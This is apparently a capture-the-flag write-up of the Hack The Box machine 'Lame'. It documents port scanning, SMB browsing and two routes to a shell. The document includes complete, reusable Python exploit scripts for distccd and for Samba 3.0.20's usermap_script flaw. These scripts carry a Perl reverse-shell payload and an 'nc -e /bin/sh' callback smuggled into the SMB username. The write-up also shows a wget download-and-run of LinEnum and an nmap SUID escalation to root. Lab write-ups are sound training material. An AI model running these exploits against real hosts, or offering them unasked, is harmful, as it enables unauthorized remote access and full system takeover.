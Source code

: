 # Lame

![image](https://user-images.githubusercontent.com/10210108/79371199-f89e6580-7f21-11ea-8c03-537738c623e5.png)

## Overview
Lame is an Ubuntu 8.04 box running distcc which is a tool designed to speed up code compilation by sending code to compile to other networked computers. This service was exploited to get the initial shell by sending a shell command padded with additional strings to make the compiler think it was getting a compile request but instead created a reverse shell. I escalated privileges to root by taking advantage of nmap which had the suid permission set. There is an alternate path to root which allowed commands to be run when the username map script smb.conf option is enabled.

## Enumeration

**Software**

* vsFTPd 2.3.4
* OpenSSH 4.7p1
* smbd 3.0.20-Debian
* distccd v1 (GNU) 4.2.4
* Ubuntu 8.04
* Sudo version 1.6.9p10
* mysql  Ver 14.12 Distrib 5.0.51a, for debian-linux-gnu (i486) using readline 5.2

**Port Scan**

```
nmap -sT -sV -Pn -n -p-  10.10.10.3 -oN /root/boxes/lame/_full_tcp_nmap.txt
```

* 21/tcp - ftp
* 22/tcp - ssh
* 139/tcp - samba smbd
* 445/tcp - samba smbd
* 3632/tcp - distccd

**SMB**

```
smbclient -L //10.10.10.3 -N
```

![image](https://user-images.githubusercontent.com/10210108/82768075-819a9d80-9dfa-11ea-961e-600e3e174d01.png)

## Steps (user)

Looking at the port scan I noticed that vsftpd 2.3.4 was running on port 21.  This version is known to have a backdoor that opens port 6200 on the target when a ":)" is appended to the username. I attempted this but for whatever reason the target did not seem vulnerable to so I moved on.

I used the smbclient tool to browse the smb shares to see if I could find any useful information.  I didn't find anything useful but I was able to write to /tmp, noting this for later.

```
smbclient //10.10.10.3/tmp -N
```

![image](https://user-images.githubusercontent.com/10210108/82768560-c70c9a00-9dfd-11ea-9701-fd855e4d47b7.png)

Next I looked at port 3632 running [distcc](https://distcc.github.io/) which is a tool for speeding up compilation of source code by using distributed computing over a network. Running a search in searchsploit for distcc returned one result.

![image](https://user-images.githubusercontent.com/10210108/82844230-c59aaa80-9ead-11ea-8581-fd407f15ed63.png)

Looking into the exploit, it appears to send a shell command and some additional strings to trick the service into thinking it's a compile operation.  The exploit was written in ruby for Metasploit and I decided to write my own in python instead.

```python
#!/usr/bin/python3
# Distcc Daemon Exploit
# Based on the Metasploit Exploit https://www.exploit-db.com/exploits/9915

import socket
import random
import string
import argparse

def dist_cmd(*argv):
    
    # Convince distccd that this is a compile
    argv = argv + ('#','-c','main.c','-o','main.o')
        
    # Set distcc 'magic fairy dust' and argument count
    res = "DIST00000001" + "ARGC" + (str(len(argv))).zfill(8)
    
    for arg in argv:
        res += "ARGV" + (str(hex(len(arg))).strip("0x")).zfill(8) + arg

    return res

def exploit(lhost,lport,rhost,rport):

    payload = """perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,""" + '"' + lhost + ":" + lport + '"' + """);STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'"""

    # connect the client
    print("[*] Connecting to target...")
    c = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    c.connect((rhost, rport))

    # Sending payload
    print("[*] Sending payload...")
    distcmd = dist_cmd("sh", "-c", payload)
    c.send((distcmd).encode('utf-8'))

    # Sending Second Payload
    print("[*] Sending second payload...")
    randomstr = ''.join(random.choices(string.ascii_letters + string.digits, k=10))
    c.send(('DOTI0000000A' + randomstr).encode('utf-8'))

    #receive
    r = c.recv(4096)
    print("[*] Server Response => " + (r).decode('utf-8'))
    c.close

def main(): 

    print("Distcc Daemon Exploit")
    parser = argparse.ArgumentParser(description="Distcc Daemon Exploit")
    parser.add_argument("-l", "--lhost", type=str, help="Local IP to listen on", default="127.0.0.1", required=True)
    parser.add_argument("-p", "--lport", help="Local port to listen on", default=1234, required=True)
    parser.add_argument("-r", "--rhost", type=str, help="IP of remote host", default="1.2.3.4", required=True)
    parser.add_argument("-t", "--rport", help="Port of remote target", default=3632)

    args = parser.parse_args()
    
    lhost = args.lhost
    lport = args.lport
    rhost = args.rhost
    rport = args.rport

    exploit(lhost,lport,rhost,rport)

if __name__ == '__main__':
    main()


```

I set up a netcat listener on port 4200 (nc -lvnp 4200) and ran the script. I received a callback and shell as user "daemon".

```
./distcc-exploit.py --lhost 10.10.14.29 --lport 4200 --rhost 10.10.10.3
```

![image](https://user-images.githubusercontent.com/10210108/82901139-827f1c80-9f2b-11ea-8ebf-4486b0661f40.png)

## Steps (root/system)

Linenum was copied to my working directory, and apython http server started in preparation to transfer the file to the target.
```
cp ~/tools/LinEnum/LinEnum.py le.sh
python3 -m http.server 80
```

On the target I used wget to download and run LinEnum

```
wget http://10.10.14.29/le.sh
chmod +x ./le.sh && ./le.sh
```

Reviewing the results of LineEnum, Under "Possibly Interesting SUID files", nmap was listed. This can be used to escalate privileges.

![image](https://user-images.githubusercontent.com/10210108/82844423-638e7500-9eae-11ea-8524-54a6014599e4.png)

> SUID is a special type of file permissions set on a file. Normally when a program runs it inherits access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it.

I ran "nmap --interactive" followed by "!sh" to get shell as root

![image](https://user-images.githubusercontent.com/10210108/82844463-97699a80-9eae-11ea-972e-1a3d24f93801.png)


## Steps (root/system) - Alternate

There is a direct path to route by exploiting a flaw in Samba 3.0.20 < 3.0.25rc3 by executing arbitrary commands via shell metacharacters when the username map script smb.conf option is enabled. I created a script to automate the exploit and create a reverse shell.

```python
#!/usr/bin/python3
from smb.SMBConnection import SMBConnection
import argparse

def exploit(lhost,lport,rhost,rport):
    
    # Simple netcat reverse shell payload
    payload = "nc -e /bin/sh " + lhost + " " + lport

    # Send the commands + payload via using ntlmv1 to target host
    username = "/=`nohup " + payload + "`"
    password = "anything"
    conn = SMBConnection(username, password, "myname", "remotename", use_ntlm_v2 = False)
    assert conn.connect(rhost, int(rport))

def main():
    
    print("Samba Usermap Script Exploit")
    parser = argparse.ArgumentParser(description="Samba Usermap Script Exploit")
    parser.add_argument("-l", "--lhost", type=str, help="Local IP to listen on", default="127.0.0.1", required=True)
    parser.add_argument("-p", "--lport", help="Local port to listen on", default=1234, required=True)
    parser.add_argument("-r", "--rhost", type=str, help="IP of remote host", default="1.2.3.4", required=True)
    parser.add_argument("-t", "--rport", help="Port of remote target", default=139, required=True)

    args = parser.parse_args()
    
    lhost = args.lhost
    lport = args.lport
    rhost = args.rhost
    rport = args.rport

    exploit(lhost,lport,rhost,rport)

if __name__ == '__main__':
    main()

```

I set up a netcat listener (nc -lvnp 4200) and ran the script. I received a callback and shell as root.

```
./samba-usermap-script.py --lhost 10.10.14.29 --lport 4200 --rhost 10.10.10.3 --rport 139
```

![image](https://user-images.githubusercontent.com/10210108/82898751-d1c34e00-9f27-11ea-99cf-f4af6b04b6dd.png)
